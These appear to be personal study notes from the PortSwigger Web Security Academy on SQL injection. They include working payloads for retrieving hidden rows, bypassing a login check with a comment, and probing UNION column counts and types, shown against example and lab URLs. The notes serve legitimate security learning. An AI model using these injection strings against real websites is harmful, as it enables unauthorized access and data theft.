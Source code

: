 # Portswigger Academy

These are notes that I compiled while learning from the Portswigger academy. The code is from them, although I will modify them according to my needs.

## SQL Injection

### **Retrieving hidden data**

Regular:&#x20;

`https://insecure-website.com/products?category=Gifts`

Modified:

`https://insecure-website.com/products?category=Gifts'--`

**OR**

`https://insecure-website.com/products?category=Gifts'+OR+1=1--`

### **Subverting application logic**

Regular:

`SELECT * FROM users WHERE username = 'John' AND password = 'Doe'`

Modified:

`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

### **SQL injection UNION attacks**

For a `UNION` query to work, two key requirements must be met:

* The individual queries must return the same number of columns.
* The data types in each column must be compatible between the individual queries.

To determine the number of columns required (to be submitted within the `WHERE` clause of the original query):

`' ORDER BY 1-- ' ORDER BY 2-- ' ORDER BY 3-- .....`

**OR**

`' UNION SELECT NULL-- ' UNION SELECT NULL,NULL-- ' UNION SELECT NULL,NULL,NULL--`

If you get an error for either one and then you'll know how many columns there are.

Regular:

`https://acad1f5f1ebf0bbfc0bd07d0009f009f.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories`

Modified:

`https://acad1f5f1ebf0bbfc0bd07d0009f009f.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%27%20UNION%20SELECT%20NULL,NULL,NULL--`

### **Finding columns with a useful data type in an SQL injection UNION attack**

**Replace 'a' with string you are looking for**

`' UNION SELECT 'a',NULL,NULL,NULL-- ' UNION SELECT NULL,'a',NULL,NULL-- ' UNION SELECT NULL,NULL,'a',NULL-- ' UNION SELECT NULL,NULL,NULL,'a'--`

Regular:

`https://ac1f1f361f395e87c021394c00230079.web-security-academy.net/filter?category=Accessories`

Modified:

`https://ac1f1f361f395e87c021394c00230079.web-security-academy.net/filter?category=Accessories%27%20UNION%20SELECT%20NULL,%27FgYUb0%27,NULL--`










